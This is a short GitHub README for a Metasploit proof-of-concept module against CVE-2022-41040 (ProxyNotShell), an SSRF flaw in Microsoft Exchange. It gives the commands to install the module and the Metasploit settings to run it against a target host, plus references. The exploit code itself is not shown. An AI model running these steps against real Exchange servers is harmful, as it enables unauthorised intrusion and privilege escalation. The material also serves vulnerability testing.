

# CVE-2022-41040-metasploit-ProxyNotShell
the metasploit script(POC) about CVE-2022-41040. Microsoft Exchange are vulnerable to a server-side request forgery (SSRF) attack. An authenticated attacker can use the vulnerability to elevate privileges.

# preparation POC
```cmd
git clone https://github.com/TaroballzChen/CVE-2022-41040-metasploit-ProxyNotShell
cd CVE-2022-41040-metasploit-ProxyNotShell
mkdir -p ~/.msf4/modules/auxiliary/scanner/http
cp microsoft_exchange_server_proxynotshell_ssrf.py ~/.msf4/modules/auxiliary/scanner/http/
chmod +x ~/.msf4/modules/auxiliary/scanner/http/microsoft_exchange_server_proxynotshell_ssrf.py
msfconsole
```

# POC usage
```text
set rhosts <vuln ip/host>
set rport <vuln port>
set rssl <default: true for https>
exploit
```

# result


# reference
- https://www.kb.cert.org/vuls/id/915563
- https://github.com/Vulnmachines/proxynotshell-checker
- https://github.com/kljunowsky/CVE-2022-41040-POC
- https://github.com/zan8in/afrog
- https://github.com/Ph33rr/Exploit